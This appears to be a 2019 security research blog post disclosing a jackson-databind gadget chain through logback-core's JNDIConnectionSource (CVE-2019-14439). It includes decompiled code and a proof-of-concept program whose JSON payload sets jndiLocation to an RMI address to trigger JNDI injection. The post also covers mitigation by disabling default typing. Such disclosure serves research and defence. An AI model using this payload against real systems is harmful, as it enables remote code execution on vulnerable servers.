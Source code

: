 ```yaml
---
layout: post
title: "Attacking Unmarshallers :: JNDI Injection using Getter Based Deserialization Gadgets"
date: 2019-08-07 10:00:00 -0500
categories: blog
excerpt_separator: <!--more-->
---
```


<p class="cn" markdown="1">I know you have pwned deserialization of untrusted data bugs before (if you haven't what the hell, they are fun!), but have you pwned an entire REST framework due to a misconfigured marshaller? In this short blog post, we will reveal some quick research that was done based upon the excellent work perform by [Doyensec](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html).</p>
<!--more-->

<p class="cn">TL;DR</p>

<p class="cn" markdown="1">*In this post, I share another gadget chain for FasterXML's jackson-databind using the common logback-core library and not requiring any other libraries. This was a bug collison with [badcode of Knownsec 404 Team](https://twitter.com/80vul/status/1156766341946232832) and marked as CVE-2019-14439.*</p>

## Analysis

<p class="cn" markdown="1">During a quick audit of the logback-core library, I found a gadget chain for the ch.qos.logback.core.db.JNDIConnectionSource class literally the same package as the DriverManagerConnectionSource class</p>

{% include image.html
            img="assets/images/attacking-unmarshallers-jndi-injection-using-getter-based-deserialization/JNDIConnectionSource.png#2"
            title="Next to the DriverManagerConnectionSource class"
            caption="Next to the DriverManagerConnectionSource class"
            style="width:30%;height:30%" %}

<p class="cn" markdown="1">The setter for the class looks pretty standard for `jndiLocation`</p>

```java
/*  90 */   public void setJndiLocation(String jndiLocation) { this.jndiLocation = jndiLocation; }
```

<p class="cn" markdown="1">However, we trigger the `getConnection` method via `ObjectMapper.writeValueAsString` which is used to return JSON objects back to a user via a REST endpoint, we reach the following code:</p>

```java
/*     */   public Connection getConnection() throws SQLException {
/*  54 */     Connection conn = null;
/*     */     try {
/*  56 */       if (this.dataSource == null) {
/*  57 */         this.dataSource = lookupDataSource();         // 1
/*     */       }
```

<p class="cn" markdown="1">So if the dataSource property is not set, the code calls `JNDIConnectionSource.lookupDataSource` at *[1]*</p>

```java
/*     */   private DataSource lookupDataSource() throws NamingException, SQLException {
/*  94 */     addInfo("Looking up [" + this.jndiLocation + "] in JNDI");
/*     */     
/*  96 */     Context initialContext = new InitialContext();                    // 2
/*  97 */     Object obj = initialContext.lookup(this.jndiLocation);            // 3
/*     */ 
/*     */ 
/*     */     
/* 101 */     DataSource ds = (DataSource)obj;
/*     */     
/* 103 */     if (ds == null) {
/* 104 */       throw new SQLException("Failed to obtain data source from JNDI location " + this.jndiLocation);
/*     */     }
/* 106 */     return ds;
/*     */   }
```

<p class="cn" markdown="1">At *[2]* the code gets an instance of the InitialContext class and at *[3]* the code calls `InitialContext.lookup` using the attacker controlled `jndiLocation` property.</p>

<p class="cn" markdown="1">In a context dependant attack, where default typing is enabled for jackson-databind, this can result in JNDI Injection vulnerability.</p>

```java
import java.io.IOException;
import com.fasterxml.jackson.core.JsonParseException;
import com.fasterxml.jackson.databind.JsonMappingException;
import com.fasterxml.jackson.databind.ObjectMapper;

public class JacksonTest {
    public static void main(String[] args) throws JsonParseException, JsonMappingException, IOException {
        
        ObjectMapper objectMapper = new ObjectMapper();
        objectMapper.enableDefaultTyping();

        StringBuilder d = new StringBuilder();
        d.append("[");
        d.append("\"ch.qos.logback.core.db.JNDIConnectionSource\"");
        d.append(",");
        d.append("{");
        d.append("\"jndiLocation\"");
        d.append(":");
        d.append("\"rmi://127.0.0.1:1097/rce\"");       // payload
        d.append("}");
        d.append("]");
 
        Object obj = objectMapper.readValue(d.toString(), java.lang.Object.class);          // trigger getters
        objectMapper.writeValueAsString(obj);                                               // trigger setters
    }
}
```

<p class="cn" markdown="1">There are multiple ways to achieve remote code execution via JNDI injection on older versions of Java using either class loading or attacking the Distrubuted Garbage Collection (DGC) for deserialization of untrusted data, techniques which are all taught in [Full Stack Web Attack](/training).</p> 

## Conclusion

<p class="cn" markdown="1">Getter based deserialization attacks are something to watch out for and can be mitigated by not using default typing. This is not a vulnerability to worry about since it has been patched and requires specific version of java to exploit.</p>

<p class="cn" markdown="1">It's interesting to note that the connection property doesn't exist at all in the `JNDIConnectionSource` class, even so, `getConnection` follows the Java bean convention and still gets called!</p>

<p class="cn" markdown="1">FasterXML continue to block individual classes and whilst I see the reasoning behind it, it makes for a cat and mouse game between attackers and defenders and I don't think that is the right approach.</p>

## References

<div markdown="1" class="cn">
- [https://blog.doyensec.com/2019/07/22/jackson-gadgets.html](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)
- [https://github.com/FasterXML/jackson-databind/issues/2389](https://github.com/FasterXML/jackson-databind/issues/2389)
</div>
